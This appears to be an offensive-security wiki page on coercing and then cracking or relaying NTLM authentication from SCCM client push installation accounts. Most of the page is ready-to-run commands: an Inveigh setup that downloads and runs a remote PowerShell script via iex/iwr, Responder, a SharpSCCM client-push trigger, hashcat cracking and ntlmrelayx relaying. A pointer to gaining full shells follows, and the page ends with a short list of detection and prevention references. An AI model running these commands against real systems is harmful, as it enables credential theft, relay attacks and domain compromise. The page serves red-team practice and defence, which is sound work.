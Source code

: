 # ELEVATE-2 - Client Push

## Document Reference

* [ELEVATE-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/ELEVATE/ELEVATE-2/ELEVATE-2\_description.md)

## Description

It is possible to coerce NTLM authentication from a site servers push installation account and machine account. The NTLM authentication can either be cracked offline or relayed elsewhere for authentication.

## Requirements

* SCCM automatic site assignment and automatic client push installation are enabled
* PKI certificates aren’t required for client authentication
* SMB Signing disabled (If relaying authentication)
* Domain user credentials
* Local Administrator (If performing from Windows)
* Fallback to NTLM authentication is not explicitly disabled (default)



## Credential Capture

### Setup capture

{% tabs %}
{% tab title="Windows" %}
Setup Inveigh or Invoke-Inveigh to sniff for network traffic (Local Admin Required)

```powershell
# Binary
Inveigh.exe

# Download
iex (iwr -usebasicparsing https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)

# Execute
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -Proxy Y -HTTPS Y -IP [Local IP>
```
{% endtab %}

{% tab title="Linux" %}
Set up Responder to listen for network traffic in analyse mode.

```python
# Responder
sudo python3 /usr/share/Responder.py -I [Interface] -A
```
{% endtab %}
{% endtabs %}

### Trigger client push installation

Trigger the client push on the site server, targeting the listening host. This process may take a couple of minutes to capture

```powershell
# SharpSCCM
SharpSCCM.exe invoke client-push -sms [SMS Site IP] -sc [Site Code] -t [Listening IP]
```

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### hashcat

```
hashcat.exe -m 5600 -a 0 -o hash.txt Wordlists\kaonashi14M.txt rules\best64.rule
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Relay Authentication

### ntlmrelayx Setup

{% tabs %}
{% tab title="Windows" %}
Before setting up ntlmrelayx on Windows we need to divert SMB traffic on port 445 to an alternate port such as 8445 with divertTCPConn (Local Administrator Required)

```
divertTCPconn.exe 445 8445
```

Configure ntlmrelayx

```powershell
ntlmrelayx.exe --smb-port 8445 -smb2support --smb-port 8445 -ts -t [Relay Target]
```
{% endtab %}

{% tab title="Linux" %}
```python
impacket-ntlmrelayx -smb2support -ts -ip [Interface IP] -t [Relay Target]
```
{% endtab %}
{% endtabs %}

Trigger Push authentication then wait a minute or two to capture the authentication request.

```powershell
SharpSCCM.exe invoke client-push -sms [Site Server] -sc [Site Code] -t [Relay IP]
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Getting full shells on Windows**

The below page demonstrates how to get full shells on Windows with Amnesiac and ntlmrelayx.

{% content-ref url="takeover-2.md" %}
[takeover-2.md](takeover-2.md)
{% endcontent-ref %}

###

### Defensive IDs

* [DETECT-1: Monitor site server domain computer accounts authenticating from another source](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/DETECT/DETECT-1/detect-1\_description.md)
* [DETECT-3: Monitor client push installation accounts authenticating from anywhere other than the primary site server](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/DETECT/DETECT-3/detect-3\_description.md)
* [PREVENT-1: Patch site server with KB15599094](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-1/prevent-1\_description.md)
* [PREVENT-2: Disable Fallback to NTLM](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-2/prevent-2\_description.md)
* [PREVENT-5: Disable automatic side-wide client push installation](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-5/prevent-5\_description.md)
* [PREVENT-8: Require PKI certificates for client authentation](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-8/prevent-8\_description.md)
* [PREVENT-11: Disable and uninstall WebClient on site servers](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-11/prevent-11\_description.md)
* [PREVENT-12: Require SMB signing on site systems](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-12/prevent-12\_description.md)

